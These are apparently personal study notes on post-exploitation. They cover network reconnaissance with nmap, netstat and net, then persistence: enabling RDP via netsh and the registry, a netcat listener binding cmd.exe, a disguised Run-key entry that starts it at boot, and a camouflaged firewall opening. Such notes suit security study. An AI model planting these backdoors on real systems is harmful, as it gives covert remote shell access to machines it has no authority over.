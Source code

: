 # Post Exploitation Hacking

## Linux Networking

### Explore Localhost

* `netstat` tells you almost everything you need to know about a system about what it's doing over the network.
  - `nestat -g`：Group memberships.
  - `netstat -r`: Routing table.
  - `netstat -i`: Kernel interface table.
  - `netstat -s`: Statistics (of various protocols).
  - `netstat —-tcp`: Show tcp connections.
  - `netstat —-udp`
  - `netstat —-raw`
* `arp` tells you something about the ARP.
* `nsswitch.conf` GNU Name Service Switch functionality.
* `resolve.conf` DNS information. Usually contains one line `nameserver xxx.xxx.xxx.xxx`.

### Linux Sniffing Tools

* `p0f`: completely passive packets sniffer and analyzer. The functionality is similar to wireshark.
  * `sudo p0f src port 22 or dst port 22`

  Usually used in combination with scanners.

* `tcpdump`: packet sniffer printing information about packets.

  * `-A`: print each packet in ASCII (handy for capturing web pages)
  * `-I`: turn on monitor mode, supported only on IEEE 802.11 Wifi interfaces.

* `tshark`: command-line wireshark, very verbose, very useful

### Linux Scanning Tools

* `arp-scan`: scan local network for devices
  * `arp-scan 192.168.0.0-192.168.0.255`
* `nmap`: powerful scanning tool.
  * Determine hosts on the network, identify services, fingerprint OS's and so much more.
  * `-sL`: list targets to scan (don't do real thing)
  * `-sn`: ping scan (don't scan ports)
  * `-Pn`: opposite of `-sn`, assume the machines are all on, skip ping scan
  * `-PS/PA/PU/PY`: TCP SYN/ACK, UDP or SCTP discovery to given ports
  * `-PE/PP/PM`: ICMP echo, timestamp, and netmask request
  * `-PO`: IP protocol ping
  * `-n/-R`: never/always do DNS resolution (default is sometimes)
  * `—dns-servers`: specify custome DNS servers
  * `—traceroute`: trace hop path to each host
  * `-sS/sT/sA/sW/sM`: TCP SYN/Connect()/ACK/Window/Maimon scans
  * `-sU`: UDP scan
  * `-sN/sF/sX`: TCP Null, FIN and Xmas scans
  * `—scanflags <flags>`: Customize TCP scan flags
  * `-sI`: idle scan (test if a host is being operated by human, etc.)
  * `-p<port ranges>`: specify ports `-p22`, `-p1-65535`, `-p U:53,111,137,T:21-25,80,139,8080,S:9`
  * `-F`: fast mode, scan fewer ports than default
  * `-r`: turn off randomization, scan consequtively, not suggested, very noticeable
  * `—top-ports <number>`: scan <number> most common ports
  * `—port-ratio <ratio>`: scan ports more common than <ratio>
  * `-sV`: probe open ports to determine service/version info
  * `--version-intensity <level>`: set from 0 to 9
  * `—version-light`: limit to most likely probes

## Windows Networking

### Windows Hosting Tools

* `iponfig`: network interface information.
  *  `ipconfig /all`: all the information, including DNS.
    * Physical address
    * DHCP enabled
    * Subnet Mask
    * Lease obtained/expires
    * Default gateway
    * DNS servers
  *  `ipconfig /help`: doesn't give very much information.
* `netstat`:  Pretty much the same to that in linux.
* `arp`: For MAC addresses and IP addresses binding.
* `net`: administration tool for Windows clients and servers. Tons of options.
  * `net localgroup`: groups on this machine (like `groups` command in linux)
  * `net config`: configuration information about workstation or server service.
  * `net share`: share something
    * `net share sharename=C:\`
    * `net share /delete sharename`
  * `net user`: user accounts on this machine
  * `net accounts`: show or update information like password max/min ages, logon limitations, domain information.
  * `net session`: list or operate on sessions between this computer and others. By `net session \\ComputerName /delete` you can force ending a connection (only use in emergency).
  * `net statistics`: output some statistics about `server` or `workstation`.
  * `net view`: displays resources being shared on a computer. Or display the detailed information of something shared by a particular computer `net view \\ComputerName`.
  * `net start`:  lists running services.
  * `net help`
* `wmic`: Windows Management Instrumentation Command-line.
  * `wmic useraccount`: displays a lot of information about all the user accounts in the computer.
  * `wmic startup`: get a list of (caption, command).


### Windows Network Tools

* `nslookup`: DNS tool identifying a DNS server. Start a command line interface with a prompt `>`.


## Persistence and Backdooring

* Goals:
  * Various methods of backdooring a system
  * Main types of backdoors:
    * RDP
    * LIstening Shell
    * New User
  * Couple of ways to hide backdoors among normal data

### Remote Desktop Protocol - RDP

* Disable firewall (by adding a firewall rule)

  ```batch
  netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
  ```

  * `netsh`: network administration tool
  * `advfirewall`: specify working with Windows advanced firewall
  * `firewall`: specify this is a firewall operation
  * `set rule group="remote desktop"`: assign a value to that group
  * `new enable=Yes`: allow RDP connections

* Add registry entry

  ```batch
  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
  ```

  * `reg add`: add something new to registry
  * `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server`: the key
  * `/v fDenyTSConnections`: the value to set
  * `/t REG_DWORD`: the data type (`int/DWORD/string/etc`)
  * `/d 0`: the actually value
  * `/f`: force overwritting the existing value

* Windows Native RDP: already installed, can be configured on command line. Disabled by several versions of Windows.

* Chrome RDP: has to be installed from elsewhere. Can be used through SSH. Version independent.

### TFTP

Simple version of FTP protocol. Default port 69.

### Netcat

* `nc`

  * `-4`: use IPv4 only
  * `-6`: use IPv6 only
  * `-C`: use CRLF
  * `-c`: execute command via `/bin/sh`
  * `-e`: execute command
  * `-m`: maximum number of connections
  * `-d`: delay read/write, reduce the data passed through network
  * `-o`: dump the session data to file
  * `-x`: dump in hex
  * `-p`: port
  * `-s`: source address to use
  * `-l`: listen for incoming connections
  * `-k`: keep open
  * `-u`: use UDP

* `nc -lkp 51000 -e "cmd.exe"`

* Set it to run (as administrator) at startup: `reg add HKLM\software\microsoft\windows\currentversion/run /v Win32mscdll.exe /t REG_MULTI_SZ /d "ncat.exe -lkp 12345 cmd.exe"`

* Disable firewall:

  ```batch
  netsh firewall add portopening TCP 12345 "Windows Admin" ENABLE ALL
  netsh firewall show portopening
  ```

